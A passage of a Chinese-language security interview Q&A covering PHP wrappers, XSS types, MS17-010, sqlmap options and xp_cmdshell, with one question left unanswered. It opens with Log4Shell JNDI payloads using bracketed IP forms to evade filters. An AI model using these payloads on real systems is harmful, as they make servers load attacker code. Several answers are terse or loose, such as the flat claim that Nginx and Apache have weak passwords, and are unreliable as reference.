   

- **对IP添加包裹**

  ```
  ${jndi:ldap://[192.168.34.96]/a} 
  ${jndi:ldap://[192.168.34.96]]/a} 
   LdapURL取出"[ip]"，LdapCtx去除[]获得ip，两种情况下端口都是389
  
  ```



### 15.ogg是否是php的伪协议？

不是。OGG是一种开放格式的媒体容器，通常用于存储音频和视频文件。它不是PHP的伪协议，PHP的伪协议是一种特殊的协议，用于在PHP中访问各种资源，如文件、网络资源等。PHP的伪协议以特殊的前缀开头，例如file://表示文件协议，http://表示HTTP协议等。



### 16. Zip://伪协议利用对应的php版本号为？

`zip://` 伪协议是在 PHP 5.2.0 版本中引入的，因此在该版本及更高版本的 PHP 中都可以使用。该伪协议允许 PHP 脚本以与本地文件系统相同的方式访问 ZIP 存档文件中的文件。



### 17.文件上传怎么绕过黑名单.asp后缀的过滤？





### 18.Nginx,apache是否存在弱口令？

均存在



### 19.Dom xss和反射型xss的区别是什么？

> DOM 型 XSS 漏洞和反射型 XSS 漏洞的区别在于攻击者注入恶意脚本的位置不同。反射型 XSS 漏洞将恶意脚本注入到响应页面中，而 DOM 型 XSS 漏洞将恶意脚本注入到浏览器的 DOM 中。



### 20.Ms17_010漏洞是那个端口造成的？

445端口



### 21.Sqlmap 中要使用随机user-agent应该使用什么参数？

```
--random-agent
```



### 22.Xp_cmdshell 是那个数据库中含有的？

` Microsoft SQL Server 数据库`
